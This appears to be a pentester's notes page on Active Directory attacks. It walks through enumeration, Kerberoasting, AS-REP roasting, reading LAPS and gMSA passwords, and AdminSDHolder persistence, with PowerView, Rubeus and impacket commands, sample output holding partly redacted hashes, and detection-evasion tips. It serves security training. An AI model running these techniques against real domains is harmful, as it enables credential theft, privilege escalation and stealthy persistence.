


# Active Directory

## Domain Enumeration

Enumeration of users within a domain using various ways:

* Native Windows tools:
  * `net.exe`

```powershell
C:> net user /dom
```

```powershell
C:> net group /dom
```

*   With RDP access to a compromised machine, the GUI panel "Search Active Directory" from File Explorer can be used:\
    &#x20;

    <figure><figcaption></figcaption></figure>

## Kerberoasting / AsrepRoasting

Using PowerView enumeration of users which have a set `ServicePrincipalName` attribute would be considered service accounts regardless if they're actually used with any service within a domain.

As such, they're considered a good target for Kerberoasting attacks.&#x20;

Similarly, user objects which have the `userAccountControl` attribute set to `1.2.840.113556.1.4.803:=4194304` are considered as targets for AsrepRoasting.&#x20;

* Finding users with a configured `servicePrincipalName` attribute within Active Directory (excluding the `krbtgt` account:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS: > Get-DomainUser -LDAPFilter "(&#x26;(objectClass=user)(servicePrincipalName=*)(!(samaccountname=krbtgt)))"
</strong></code></pre>

* Finding users with a `userAccountControl` attribute value allowing for AsrepRoasting:

```powershell
PS: > Get-DomainUser -LDAPFilter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
```

Same filters can be used with `ldapsearch` on Linux.

In the case where an attacker doesn't have a valid user wordlist which exist in the target domain, a generalised wordlist of usernames following the format of the target domain for usernames, can be used to spray them and determine if they have a configured value for `Do not require preauthentication` attribute.

A list of usernames can be obtained from [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames).

```bash
$ impacket-GetNPUsers -no-pass -usersfile jsmith.txt target.domain.local/
```

Using known .NET tools can be used as well which can be loaded from a C2 using methods such as `inline-execute`.

Alternatively, if access is already obtained on a target via psexec, winrm or alternative method, the following tools can be used:

* Rubeus (obtain statistiscs)

```powershell
PS: > C:\Windows\Tasks\Rubeus.exe kerberoast /stats

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : us.techcorp.local
[*] Searching path 'LDAP://target.domain.local/DC=target,DC=domain,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


 -------------------------------------
 | Supported Encryption Type | Count |
 -------------------------------------
 | RC4_HMAC_DEFAULT          | 3     |
 -------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2019                   | 1     |
 | 2021                   | 1     |
 | 2024                   | 1     |
 ----------------------------------
```

* Rubeus (kerberoast all users with SPN value)


\- OPSEC -&#x20;

Performing targeted kerberoasting or asreproasting is considered better for opsec. Performing kerberosting on all users in a domain with SPN will trigger lots of detections.


```powershell
PS: > C:\Windows\Tasks\Rubeus.exe kerberoast


   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : target.domain.local
[*] Searching path 'LDAP://target.domain.local/DC=target,DC=domain,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : svcVeeamadm
[*] DistinguishedName      : CN=svcveeamadm,CN=Users,DC=target,DC=domain,DC=local
[*] ServicePrincipalName   : cifs/svcVeeamadm
[*] PwdLastSet             : 7/16/2019 12:03:27 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svcVeeamadm$target.domain.local$cifs/svcVeeamadm@target.domain.l
                             ocal*$B9BE5FA[REDACTED]


[*] SamAccountName         : svchttp01
[*] DistinguishedName      : CN=svchttp01,CN=targeters,DC=target,DC=domain,DC=local
[*] ServicePrincipalName   : svchttp01/target-jump.target.domain.local
[*] PwdLastSet             : 1/8/2021 5:50:35 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svchttp01$target.domain.local$svchttp01/target-jump.target.domain.local@target
                             .domain.local*$40146CAC3[REDACTED]

[*] SamAccountName         : dssServ
[*] DistinguishedName      : CN=dssServ,CN=Users,DC=us,DC=domain,DC=local
[*] ServicePrincipalName   : http/machine01
[*] PwdLastSet             : 7/2/2024 1:25:57 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*dssServ$target.domain.local$http/machine01@target.domain.local*$7C2C5
                             3B4B0F27EB99DF86C7F5A036[REDACTED]
```

## Credentials in SYSVOL

SYSVOL and NETLOGON shares on domain controllers are used often by developers and system administrators to store scripts which may likely contain hardcoded credentials. These credentials can be used to escalate privileges either horizontally or vertically within a domain environment.

A good resource for understanding this concept can be found here: [https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288) (Image obtained from adsecurity.org)

<figure><figcaption></figcaption></figure>

## &#x20;LAPS (Local Administrator Password Solution)

LAPS is a Microsoft Active Directory solution to manage, store and backup local administrator passwords. Deploying LAPS will allow every machine which has the group policy that deploys LAPS applied, to have a randomly generated password stored within LDAP under the `ms-Mcs-AdmPwd` for the local administrator.

This creates a remediation for a common problem of password reuse for local administrator accounts in corporate environments.

More information on LAPS can be read on Microsoft's website: [https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)

### LAPS Enumeration

* Find what object type can read the `ms-Mcs-AdmPwd` LDAP attribute within the  OUs of a domain:&#x20;

<pre class="language-powershell"><code class="lang-powershell"><strong>PS:> get-domainou | Get-DomainObjectAcl -ResolveGUIDs | where {$_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" }
</strong>

AceQualifier           : AccessAllowed
ObjectDN               : OU=oneOU,DC=target,DC=domain,DC=local
ActiveDirectoryRights  : ReadProperty, ExtendedRight
ObjectAceType          : ms-Mcs-AdmPwd
ObjectSID              :
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-210670987-2521448726-163243708-1116
AccessMask             : 272
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit, InheritOnly
InheritedObjectAceType : Computer
OpaqueLength           : 0

</code></pre>

Then convert the property's `SecurityIdentifier` SID using `Convert-SidToName` function from PowerView:

```powershell
PS: > Convert-SidToName -ObjectSid "S-1-5-21-210670987-2521448726-163243708-1116"
TARGET\helpdesk_users
```

Ultimately, the above means that the domain group `TARGET\helpdesk_users`can read the LAPS password attribute in LDAP.

* Find out if a compromised host has LAPS installed

Fairly simple task where checking `C:\Program Files\LAPS\CSE` for the presence of the DLL `AdmPwd.dll` would indicate that LAPS is installed on a compromised host.

```powershell
# Powershell
PS: > gci 'C:\Program Files\LAPS\CSE'

# CMD
cmd> dir 'C:\Program Files\LAPS\CSE'
```

### LAPS Abuse

Once a vulnerable group, user or computer has been identified that allows the attacker to read the LAPS password the following can be used to read the password:

* PowerView:

```powershell
PS: > Get-DomainObject -LDAPFilter "(&(objectClass=computer))" | Select-Object name,ms-mcs-admpwd

name         ms-mcs-admpwd
----         -------------
DC01
EXCHANGE01
MGMT01
SERVER01     )%{3d364ed]H%5
```

* LAPS module

```powershell
PS: > Import-module C:\tools\AdmPwd.PS\AdmPwd.PS.dll
PS: > Get-AdmPwdPassword -ComputerName targetserver01 | select Password
```

* AD Module

```powershell
PS: > Get-ADComputer -Filter * -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

## Bloodhound

Bloodhound is probably one of the best tools so far which is able to provide a nice visual representation of object relationship within Active Directory. Due to the usage of Neo4j graph database, a very user-friendly interface is presented which corelates the relationship of users, groups, computers, OUs, CAs and so on.

Some useful bloodhound queries can be found below:

* [https://github.com/fin3ss3g0d/cypherhound/](https://github.com/fin3ss3g0d/cypherhound/)
* [https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
* [https://github.com/CompassSecurity/BloodHoundQueries](https://github.com/CompassSecurity/BloodHoundQueries)
* [https://github.com/ZephrFish/Bloodhound-CustomQueries](https://github.com/ZephrFish/Bloodhound-CustomQueries)
* [https://github.com/hausec/Bloodhound-Custom-Queries](https://github.com/hausec/Bloodhound-Custom-Queries)

Image below taken from [https://specterops.io/blog/2024/01/24/adcs-attack-paths-in-bloodhound-part-1/](https://specterops.io/blog/2024/01/24/adcs-attack-paths-in-bloodhound-part-1/):&#x20;


\- OPSEC -

Bloodhound's collector SharpHound as well any of the publicly available tools for Linux are very noise and is advised not to use it if opsec is one of the main things for an engagement.

Instead use other tools like ADExplorer, custom ldap filter queries, etc.

If bloodhound is necessary then it should be throttled heavily with modification of the pre-existing LDAP queries.


Obtaining a snapshot of Active Directory using AD Explorer can then be converted to a Bloodhound supported JSON format using the following tool and afterwards imported in Bloodhound:

* [https://github.com/c3c/ADExplorerSnapshot.py](https://github.com/c3c/ADExplorerSnapshot.py)


It's likely that this tool will not convert the collected snapshot to the new format of Bloodhound CE !


## gMSA Service Accounts

A gMSA service accounts is the secure alternative to a standard service account which mainly is used within hybrid environments. These require special permissions to be assigned to specific groups or users to be able to read or set the password of a gMSA account.

More information can be found here: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/getting-started-with-group-managed-service-accounts](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/getting-started-with-group-managed-service-accounts)


gMSA account's password can't be read even by a domain admin account unless permissions are explicitly set.


* Using PowerView to find gMSA service accounts:

```powershell
PS: > get-domainobject -LDAPFilter "(&(objectClass=msDS-GroupManagedServiceAccount))"
```

* Using AD Module to find gMSA service accounts:

```powershell
PS: > Get-ADServiceAccount -LDAPFilter "(&(objectClass=msDS-GroupManagedServiceAccount))"
```

When gMSA accounts are identified, then it should be discovered who is able to read the passwords which will result in privilege escalation.

```powershell
PS: > (Get-ADServiceAccount -LDAPFilter "(&(objectClass=msDS-GroupManagedServiceAccount))" -Properties *).PrincipalsAllowedToRetrieveManagedPassword
```

Once the user who's able to read the password attribute of the target gMSA is compromised (if required), then the following can be used:

```powershell
PS: > Import-Module C:\ADModule-master\Microsoft.ActiveDirectory.Management.dll
PS: > Import-Module C:\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
PS: > Import-Module C:\DSInternals\DSInternals.psd1
PS: > $Passwordblob = (Get-ADServiceAccount -Identity targetaccount -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
PS: > $decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
PS: > ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

That NTLM hash can then be used to get a ticket (Rubeus/Mimikatz) and pass it in the current session.

## AdminSDHolder

AdminSDHolder is a special container in Active Directory which can provide administrative privileges over a user object. Since this container is available in a domain environment, it can be abused to establish persistence.&#x20;

If a malicious user has obtained domain admin privileges and have previously compromised a low-privileged or an alternative account, they could add that (non-admin) account to the AdminSDHolder container by modifying the ACL to elevate the non-admin account to Domain Admin.

There is a scheduled task which automatically runs every hour to check against any changes in the AdminSDHolder container. If there's a change, the task updates the privileges (or ACL) of the target user and assigns Administrator privileges in the specific domain.

For example:

1. Malicious user compromised user (`Jack`) - part of Domain Users
2. Malicious user obtained Domain Admin rights by compromising user (`dadmin`).
3. Malicious user uses account `dadmin` to modify the AdminSDHolder container to add user `Jack`to it using the following command:

```powershell
Import-Module .\PowerSploit.ps1
Add-DomainObjectAcl -TargetIdentity “CN=AdminSDHolder,CN=System, DC=domain,DC=local” -PrincipalIdentity Jack -Rights All
```

4. After 60 minutes, the privileges will be updated automatically, elevating user `Jack`to have administrator privileges in the domain `domain.local`.

The 60 minute time can be skipped if this is a preferred route for the operator which can be done via LDAP by modifying the domain DN attributes:

Modify the DN attribute `RunProtectedAdminGroupsTask`.

Some references:








